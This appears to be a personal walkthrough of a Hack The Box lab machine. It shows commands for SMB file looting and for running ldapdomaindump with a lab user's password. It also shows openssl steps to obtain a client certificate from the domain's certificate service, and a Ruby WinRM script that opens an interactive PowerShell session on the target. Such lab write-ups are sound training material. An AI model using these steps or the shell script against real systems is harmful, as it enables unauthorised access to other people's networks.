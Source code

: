 
What can we do with a user name and password
```
prompt off
recurse on
ls
mget *
```
![[Pasted image 20240408013556.png]]

I don't know what's the certificate for now and whether we should generate it or not but will try to do secrets dump and ldapdump 1st.

```
ldapdomaindump ldaps://10.10.10.103 -u 'HTB\Amanda' -p 'Ashare1972'
```
![[Pasted image 20240408014627.png]]

Will run bloodhound on this tomorrow.

It seems like we have to do something with the certificate i guess. Like make a certificate for Amanda.

![[Pasted image 20240408131444.png]]

Will select advanced certificate request as User certificate throughs error at us.
![[Pasted image 20240408131533.png]]

But it's working cause we have to give some kind of output here like a key or something. So will go back to out Nmap result.

```
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-11-19T17:59:11+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, 
```

We know that port 5985 and 5986 both are used for winrm and one supports Http and another supports https.
As port 5985 is not working so we need to use port 5986 and for that reason we need certificate.

We will generate a certificate request and a private key : 
```
openssl genrsa -aes256 -out amanda.key 2048
```
![[Pasted image 20240408141724.png]]

```
openssl req -new -key amanda.key -out amanda.csr
```
![[Pasted image 20240408141959.png]]

```
-----BEGIN CERTIFICATE REQUEST-----
MIICijCCAXICAQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUx
ITAfBgNVBAoMGEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDCCASIwDQYJKoZIhvcN
AQEBBQADggEPADCCAQoCggEBAOUU4FjaASHFdmW/JmOqd0TKz61skZ56LJZf9PHM
EK2TuxeqY6/MGpcX/Wv5CNo3R9ab+QnUBCtjloQeUAhMeWwkBt3dam/bU36XSu9Z
ZXgGAq8QsWfprQhvdBtof4B4bRqZKybjIx1ks2ke7DC0BceIpcaWY7hI8eoIWbp7
yEJORqdSxKwvEhdKxywapn8N2sUqlFHw4VBU8sEuB8K7zwhTPkB9AJqSFEIx2Tcb
ZgFRrsUVIP6ThLhyBDn+sGfyhEufyOdl9yWxn4c8ncbioT3lw3DytDwHI6viA+mD
hPaBKLcbBC1A9fHTxp6OvHjvE/GmEyuhORW1MvhMMzDgBZMCAwEAAaAAMA0GCSqG
SIb3DQEBCwUAA4IBAQAg1ad9YxAtYsPwmy+ByQP1YkmVgHytK0m6fZ6Ss0PSfH7z
3UIqNDHqvDUPLHst9jbUApleuWmQWiaT+gbyoNYvubwZTRuSzWwqYMFVuRYLnvgI
oaYVAdxVUvewYGua1G7WRS+8volFRSTlReHktHb3XNnIIaXzPHDNFbA1HaARmY4x
Tx9FNfpglelmfpWMtDJvlfVUzUBUrIVeyR1PIG025x+zgBDROKHuq/2vBPpsQvCl
4ddWWGQ/AQmB5IPYHaGe62OJBh130GdLr0jbtn+RhSWiEpGLvq+HUVSw8qoePusY
W4zcIb4cjyDyaPu9sfK2e7ed6Zx/GF8a0SR4cpL2
-----END CERTIFICATE REQUEST-----
```

What i was doing wrong is that i was entering the wrong key we have to copy the .csr
![[Pasted image 20240408142323.png]]

How we have the key and will simply use a script winrm as you know that we can't connect to it through linux but luckily we have a Ruby library and will use it.

We install 
```
gem install winrm
``` 

Now we are getting this error
![[Pasted image 20240408170210.png]]

![[Pasted image 20240408181853.png]]

What i was doing wrong is that i was giving the wring certnew.cer (i.e the one we have downloaded). Authenticate through SSL using ruby (i.e. winrm)
```
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  client_cert: 'certnew.cer',
  client_key: 'amanda.key',
  key_pass: 'testing',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```


```
ruby psremote.rb
```
![[Pasted image 20240408221759.png]]

